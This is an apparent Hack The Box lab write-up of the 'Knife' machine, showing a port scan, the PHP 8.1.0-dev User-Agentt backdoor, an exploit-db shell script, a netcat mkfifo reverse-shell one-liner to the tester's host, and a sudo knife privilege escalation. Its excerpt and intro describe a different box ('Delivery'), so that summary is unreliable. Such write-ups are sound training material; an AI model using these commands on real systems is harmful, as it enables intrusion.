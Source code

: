 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Delivery is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell."
date: 23-12-2023
classes: wide
header:
  teaser: /assets/images/htb-writeup-knife/knife_logo.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - PHP
  - Web
  - RCE
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-knife/knife_logo.jpg)


Delivery is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell.


## Portscan

The scan show that we have port 22 and port 80 open with an apache  web server 

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-23 19:04 EST
Nmap scan report for 10.10.10.242
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.23 seconds

                                                        
```

## Website

I found using wappalyzer that the website is using PHP version 8.1.0

![](../assets/images/htb-writeup-knife/web-wappalyzer.png)

I re-checked the headers with burpsuite and discovered that the page was using this specific version PHP 8.1.0-dev. 

![](../assets/images/htb-writeup-knife/web-burpsuite.png)


Doing some research we know that this PHP version was released with a backdoor. This version let you execute code by sending the User-Agentt header. 

![](../assets/images/htb-writeup-knife/web-google.png)

![](../assets/images/htb-writeup-knife/web-exploit-db.png)

## Exploit

Using the script i´ve found in exploitdb i´ve got an non stable shell in the server. 

```
bash
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ ls    
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
```

To get an interactive shell i set up a listener in my machine running on port 4444 and used a reverse shell comand in the server. 

#### Remote shell execution 
```
bash
└─$ python 49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.71 4443 >/tmp/f


<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>504 Gateway Timeout</title>
</head><body>
<h1>Gateway Timeout</h1>
<p>The gateway did not receive a timely response
from the upstream server or application.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 10.10.10.242 Port 80</address>
</body></html>
``

#### Listener and user flag
```
└─$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.10.10.242] 38728
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cd /home/james
```
![](../assets/images/htb-writeup-knife/web-user-txt.png)


## Privilege Escalation

A common way to get privileges in a machine is by searching SUID binaries, which can be executed with the privileges of an owner or group, this can help us to get a privileged shell. 
```
bash
james@knife:/$ sudo -l     
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Ive look for the knife binary that we can run it as root and found that can help us to get the root shell.

![](../assets/images/htb-writeup-knife/web-gtfobins.png)

And we have the root flag 

![](../assets/images/htb-writeup-knife/web-root-txt.png)